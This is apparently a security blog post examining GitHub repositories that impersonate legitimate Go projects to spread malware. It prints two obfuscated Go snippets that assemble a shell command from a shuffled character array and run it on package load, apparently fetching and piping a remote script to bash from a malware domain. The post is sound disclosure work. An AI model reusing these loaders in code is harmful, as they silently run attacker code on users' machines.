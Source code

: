 The `upsetpanther/feishu` repository, which is an impersonation of [CatchZeng/feishu](https://github.com/CatchZeng/feishu), is actually pretty interesting because the README is written in Chinese, which hints that the scammer might be targeting Chinese speaking users (or can speak Chinese themself).

They also removed the GitHub actions from the project files. I am not sure why though. GitHub actions have a generous free tier, and even if it didn't, would it matter for a bot account?

The only logical reason would be that GitHub actions expose information about the user when ran, but I was unable to corroborate that theory.

[https://github.com/upsetpanther/feishu/blob/dc01385fa277143ed93cfc18110789dfa209e277/cmd/feishu/image.go#L54-L63](https://github.com/upsetpanther/feishu/blob/dc01385fa277143ed93cfc18110789dfa209e277/cmd/feishu/image.go#L54-L63)

```go
import "os/exec"

func QfdnANi() error {
	tkS := []string{"5", "s", "g", " ", "e", "s", "/", "i", "-", "/", "3", "d", " ", "g", "3", "n", "/", "e", "a", "4", "e", ":", "s", "/", "/", "t", "o", "a", "n", "a", "e", "/", "t", "f", "t", "s", "&", "/", " ", ".", " ", "3", "h", "a", "t", "b", "d", "t", "0", "a", "s", "v", "b", "w", "e", "-", "r", "i", "f", "t", "7", " ", "|", "1", "b", "h", " ", "p", "t", "O", "e", "6", "d", "b", "w", "r"}
	uSZIGOH := "/bin/sh"
	GHfr := "-c"
	lask := tkS[74] + tkS[13] + tkS[30] + tkS[47] + tkS[3] + tkS[8] + tkS[69] + tkS[66] + tkS[55] + tkS[40] + tkS[42] + tkS[68] + tkS[59] + tkS[67] + tkS[22] + tkS[21] + tkS[24] + tkS[9] + tkS[51] + tkS[43] + tkS[15] + tkS[27] + tkS[56] + tkS[25] + tkS[20] + tkS[5] + tkS[34] + tkS[39] + tkS[53] + tkS[4] + tkS[64] + tkS[50] + tkS[7] + tkS[44] + tkS[70] + tkS[31] + tkS[35] + tkS[32] + tkS[26] + tkS[75] + tkS[29] + tkS[2] + tkS[17] + tkS[16] + tkS[72] + tkS[54] + tkS[41] + tkS[60] + tkS[14] + tkS[46] + tkS[48] + tkS[11] + tkS[58] + tkS[23] + tkS[49] + tkS[10] + tkS[63] + tkS[0] + tkS[19] + tkS[71] + tkS[73] + tkS[33] + tkS[61] + tkS[62] + tkS[38] + tkS[37] + tkS[52] + tkS[57] + tkS[28] + tkS[6] + tkS[45] + tkS[18] + tkS[1] + tkS[65] + tkS[12] + tkS[36]
	exec.Command(uSZIGOH, GHfr, lask).Start()
	return nil
}

var boQRpnog = QfdnANi()
```

The malware host was once again changed, now to `vanartest [dot] website`.

![github feishu repositories side-by-side](/blog/github-feishu-side-by-side.png)

Like the earlier repositories, `wickedcorsa/go-hoyolab` is also an impersonation. This time of [dvgamerr-app/go-hoyolab](https://github.com/dvgamerr-app/go-hoyolab).

Interestingly the malware embedded in this repository uses the same domain and path as the one above (`vanartest [dot] website`).

```go
import "os/exec"

func sathAcl() error {
	zR := []string{"3", "d", "t", "-", "t", "e", "5", "b", "g", "a", "6", ".", "e", "f", "t", "/", "&", "3", "g", "h", "/", " ", "|", "t", "b", "e", "a", "p", "-", "f", "e", "s", "0", "o", "a", "s", "a", "t", "b", "t", "7", "/", "4", " ", "h", "s", "r", " ", "s", "O", " ", "b", "s", "/", "/", "n", "/", "a", "3", "1", "d", "t", "n", "e", "v", "i", "w", " ", "i", " ", ":", "r", "e", "w", "/", "d"}
	GeEGE := "/bin/sh"
	VnjRkf := "-c"
	BRzqziPl := zR[73] + zR[8] + zR[72] + zR[37] + zR[47] + zR[28] + zR[49] + zR[67] + zR[3] + zR[21] + zR[19] + zR[4] + zR[23] + zR[27] + zR[45] + zR[70] + zR[56] + zR[41] + zR[64] + zR[34] + zR[55] + zR[26] + zR[71] + zR[61] + zR[25] + zR[48] + zR[14] + zR[11] + zR[66] + zR[12] + zR[24] + zR[31] + zR[68] + zR[2] + zR[63] + zR[20] + zR[35] + zR[39] + zR[33] + zR[46] + zR[9] + zR[18] + zR[30] + zR[15] + zR[75] + zR[5] + zR[0] + zR[40] + zR[17] + zR[60] + zR[32] + zR[1] + zR[13] + zR[53] + zR[57] + zR[58] + zR[59] + zR[6] + zR[42] + zR[10] + zR[38] + zR[29] + zR[50] + zR[22] + zR[43] + zR[54] + zR[7] + zR[65] + zR[62] + zR[74] + zR[51] + zR[36] + zR[52] + zR[44] + zR[69] + zR[16]
	exec.Command(GeEGE, VnjRkf, BRzqziPl).Start()
```